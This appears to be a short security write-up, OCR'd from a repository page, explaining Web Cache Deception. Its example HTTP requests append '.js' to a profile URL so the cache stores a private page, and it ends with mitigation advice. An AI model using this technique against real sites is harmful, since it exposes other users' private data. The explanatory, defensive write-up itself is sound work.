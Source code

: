 # Web Cache Deception
The vulnerability found concerns a misconfiguration of the web cache that allows an attacker to access private or sensitive content intended only for authenticated users.
By manipulating the URL, the attacker can trick the cache system and force the caching of a response containing confidential information.

# How to exploit
Here is a concrete example of how a discrepancy in path mapping within a web app can be exploited to perform a Web Cache Deception attack. Suppose we have a web app with an area reserved for user profiles

The authenticated user can access their profile page via the following URL:

**GET /user/123/profile HTTP/1.1**

**Host: www.example.com**

Server response:

HTTP/1.1 200 OK
Content-Type: text/html
Cache-Control: no-store
Cf-Cache-Status: BYPASS

<html>
<body>
Profilo di Jacopo
<p>Email: jacopo@example.com</p>
<p>Indirizzo: xxxxx</p>
</body>
</html>

In this case, the server correctly returns the profile information of authenticated user 123 (jacopo) and does not cache the response thanks to the Cache-Control: no-store header

**Attempted Web Cache Deception:**

The attacker could manipulate the URL by adding a commonly cacheable extension such as .js, thereby tricking the cache system into storing the response

**GET /user/123/profile.js HTTP/1.1
Host: www.example.com**

Server response:

HTTP/1.1 200 OK
Content-Type: text/html
Cache-Control: public, max-age=3600
Cf-Cache-Status: **HIT**

 the origin server might treat the URL **/user/123/profile.js** as if it were a normal request for user profile 123, ignoring the .js extension. However, the caching system might interpret the URL as a static resource (a .js file) and decide to cache the response


At this point, any user (authenticated or not) accessing the same manipulated URL in incognito mode or from another device will get the response cached with the sensitive profile data of user 123

**GET /user/123/profile.js HTTP/1.1**

**Host: www.example.com**

# Recommendations:
Disable caching for sensitive content: Correctly set cache headers, such as Cache-Control: no-store, for all sensitive resources and pages requiring authentication.

Path validation: Implement control logic on URLs to reject requests with unexpected extensions or unusual syntax.

Authentication control: Ensure that every request to sensitive resources always performs an authentication check, even if the resource has been previously cached.





